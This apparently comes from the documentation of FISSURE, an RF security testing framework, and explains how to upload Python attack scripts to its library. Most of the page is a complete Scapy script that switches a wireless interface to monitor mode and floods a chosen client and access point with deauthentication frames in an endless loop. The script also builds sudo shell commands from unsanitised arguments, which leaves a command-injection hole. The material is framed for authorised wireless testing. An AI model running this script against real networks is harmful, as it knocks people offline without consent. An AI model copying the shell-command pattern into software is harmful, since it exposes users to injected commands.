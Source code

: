 # Uploading Python Scripts

## Creating Python Scripts
Non-GNU Radio attacks can be added to the FISSURE library by uploading specially configured Python (.py) files. A function is needed within the Python script to identify which variables will be modifiable in the FISSURE Dashboard (`getArguments()`). Those variables are used by the system as command line arguments during execution of the script.

### Scapy Example
The following example uses Scapy to send multiple deauthentication frames from a wireless interface. Use the code as a reference for creating future Python scripts. 
```
from scapy.all import Dot11,Dot11Deauth,RadioTap,sendp
import os, sys

#################################################
############ Default FISSURE Header ############
#################################################
def getArguments():
    client = '00:11:22:33:44:55'        # Target MAC address
    bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
    iface = 'wlan0'	                    # Wireless interface name 
    channel = 1                         # Wireless channel
    interval = 0.01                     # Scapy interval
    arg_names = ['client','bssid','iface','channel','interval']
    arg_values = [client, bssid, iface, channel, interval]

    return (arg_names,arg_values)


if __name__ == "__main__":

    # Default Values
    client = '00:11:22:33:44:55'        # Target MAC address
    bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
    iface = 'wlan0'                     # Wireless interface name 
    channel = '1'                       # Wireless channel
    interval = '0.01'                   # Scapy interval

    # Accept Command Line Arguments
    try:
        client = sys.argv[1]
        bssid = sys.argv[2]
        iface = sys.argv[3]
        channel = sys.argv[4]
        interval = sys.argv[5]
    except:
        pass

#################################################
    
    # Create Frame
    packet = RadioTap()/Dot11(type=0, subtype=12, addr1=client, addr2=bssid, addr3=bssid)/Dot11Deauth(reason=7)

    # Set Monitor Mode and Channel
    os.system("sudo ifconfig " + iface + " down") 
    os.system("sudo iwconfig " + iface + " mode monitor") 
    os.system("sudo ifconfig " + iface + " up") 
    os.system("sudo iwconfig " + iface + " channel " + channel) 
	
    # Send Frame  
    sendp(packet, iface=iface, inter=float(interval), loop=1)
```

## Uploading the File
The Python file can be uploaded to Dashboard in the Library>Attacks tab. The file type must be set to "Python Script" and the selected file must be a valid Python file.
